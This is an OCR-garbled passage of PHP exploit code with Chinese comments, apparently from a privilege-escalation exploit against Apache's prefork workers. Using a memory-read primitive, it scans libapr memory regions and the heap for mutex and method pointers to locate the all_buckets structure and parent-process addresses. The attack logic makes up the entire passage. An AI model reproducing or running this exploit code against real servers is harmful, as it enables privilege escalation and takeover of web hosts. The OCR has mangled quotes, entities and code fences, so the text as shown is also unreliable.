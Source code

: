     if($libapr_region[$i][2] === "r--p"){//const data
        $libapr_data_start_addr = $libapr_region[$i][0];
        $libapr_data_end_addr = $libapr_region[$i][1];
        continue;
    }
}

echo "libapr text start addr:0x".dechex($libapr_text_start_addr)."\n";
echo "libapr text end addr:0x".dechex($libapr_text_end_addr)."\n";

echo "libapr data start addr:0x".dechex($libapr_data_start_addr)."\n";
echo "libapr data end addr:0x".dechex($libapr_data_end_addr)."\n";

$result = array();
$result_index = 0;
for($i = 0;$i&lt;$heap_end_addr - $heap_start_addr;$i+=8){//遍历heap
    $mutex_addr = read_mem_qword($heap_start_addr + $i);//prefork_child_bucket中的mutex
    if( $heap_start_addr &lt;$mutex_addr &amp;&amp; $mutex_addr&lt;$heap_end_addr ){

        $meth_addr = read_mem_qword($mutex_addr + 8);//apr_proc_mutex_t中的meth

        if( $libapr_data_start_addr &lt; $meth_addr &amp;&amp; $meth_addr &lt; $libapr_data_end_addr){

            $function_point = read_mem_qword($meth_addr+8);
            if($libapr_text_start_addr &lt; $function_point &amp;&amp; $function_point &lt; $libapr_text_end_addr){
                $result[$result_index++] = $heap_start_addr + $i - 8 -8;
            }
        }
    }
}

//在我的环境中，有多个地址满足是all_buckets 地址的要求，但是只有第3个才是正确的
if( count($result)!= 4 ){
    return 0;
}
else{
    return $result[2];
} 
```

}

echo “PID: “.getmypid().”\n”;

$parent_struct_addr = locate_self_parent_struct_addr();

if($parent_struct_addr == 0){

die(“get self parent struct addr error\n”);

}

echo “self parent struct addr:0x”.dechex($parent_struct_addr)."\n";

$parent_arr_addr = locate_parent_arr_addr();

if($parent_arr_addr){

echo “parent arr addr:0x”.dechex($parent_arr_addr)."\n";

}

$all_buckets_addr = locate_all_buckets_addr();

if($all_buckets_addr == 0){

```